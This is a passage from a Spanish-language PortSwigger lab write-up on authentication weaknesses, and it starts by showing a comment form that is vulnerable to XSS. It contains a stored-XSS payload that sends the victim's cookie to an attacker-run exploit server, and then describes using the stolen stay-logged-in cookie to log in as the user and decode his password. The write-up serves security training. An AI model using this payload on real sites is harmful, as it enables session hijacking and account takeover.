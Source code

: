 <div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220509204058.png' | relative_url }}" text-align="center"/>
</div>

Por otra parte, observamos que la sección de comentarios es vulnerable a XSS ya que introduciendo un comentario como \<h1>hola\</h1> obtenemos:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220509204602.png' | relative_url }}" text-align="center"/>
</div>

Así, vamos a aprovechar estas vulnerabilidades para extraer la cookie stay-logged-in del usuario carlos.

Para ello introducimos el siguiente payload en un comentario:

```html
<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
```

Y acudimos al log de nuestro servidor del exploit observando:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220509210251.png' | relative_url }}" text-align="center"/>
</div>

Luego, introducimnos dicha cookie en nuestra cookie de stay-logged-in y entramos dentro del servidor:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220509210427.png' | relative_url }}" text-align="center"/>
</div>

Aunque, también podríamos haber decodeado la cookie con decodify y tener la contraseña de carlos:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220509210554.png' | relative_url }}" text-align="center"/>
</div>


<br />

**Reseteo de la contraseña de un usuario**

En muchas aplicaciones web existe una función que permite cambiar la contraseña para todos aquellos usuarios que la hayan perdido entre otras razones.

Existen tres vias diferentes entre las que este mecanismo puede ser dañino:

- **Mandar la contraseña por email**: Puede ocurrir que el canal a través del cual se envía el email sea un canal inseguro, exponiendo de esa manera la información ante un ataque de MiTM, o que otra persona tenga acceso al email del usuario con lo que la contraseña también se vería expuesta en ese caso.

<br />
